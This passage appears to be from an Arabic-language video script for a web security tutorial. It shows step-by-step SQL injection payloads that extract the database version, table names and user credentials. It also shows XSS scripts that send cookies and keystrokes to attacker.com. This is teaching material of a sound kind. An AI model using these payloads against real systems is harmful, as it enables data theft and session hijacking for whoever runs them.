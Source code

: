 **المعلق الصوتي:**

"نبدأ مع واحدة من أخطر الثغرات - SQL Injection. هذه الثغرة تسمح للمهاجم بتنفيذ استعلامات SQL غير مصرح بها في قاعدة البيانات."

### [المشهد: شاشة الطرفية مع تنفيذ الاستغلال]

**المعلق الصوتي أثناء التنفيذ:**

"نبدأ باختبار وجود الثغرة باستخدام Payload بسيط. نلاحظ أن التطبيق لا يقوم بالتحقق السليم من المدخلات، مما يسمح لنا بتعديل الاستعلام."

**الأوامر التي تظهر على الشاشة:**
```sql
-- خطوة 1: اختبار وجود الثغرة
1' AND 1=1--

-- خطوة 2: استخراج إصدار قاعدة البيانات
1' AND 1=CONVERT(int, (SELECT @@version))--

-- خطوة 3: استخراج أسماء الجداول
1' AND 1=2 UNION SELECT null,table_name,null FROM information_schema.tables--

-- خطوة 4: استخراج بيانات المستخدمين
1' AND 1=2 UNION SELECT null,username+':'+password,null FROM users--
```

**المعلق الصوتي:**
"النتيجة: تمكنا من استخراج أسماء المستخدمين وكلمات المرور المشفرة. هذا يثبت أن الثغرة يمكن استغلالها للوصول الكامل إلى البيانات الحساسة."

---

## القسم الثالث: XSS - السيطرة على المتصفح (الدقيقة 8-12)

### [المشهد: صفحة ويب مع حقل بحث]

**المعلق الصوتي:**

"الآن ننتقل إلى ثغرة XSS التي تسمح لنا بتنفيذ JavaScript في متصفح الضحية. هذه الثغرة قد تؤدي إلى سرقة بيانات الاعتماد والسيطرة الكاملة على جلسة المستخدم."

### [المشهد: تنفيذ Payload XSS]

**الأوامر التي تظهر:**
```javascript
// سرقة الكوكيز
<script>
    var xhr = new XMLHttpRequest();
    xhr.open('GET', 'http://attacker.com/steal.php?cookie=' + document.cookie, true);
    xhr.send();
</script>

// تسجيل المفاتيح
<script>
    document.addEventListener('keydown', function(e) {
        fetch('http://attacker.com/keylog?key=' + e.key);
    });
</script>
```
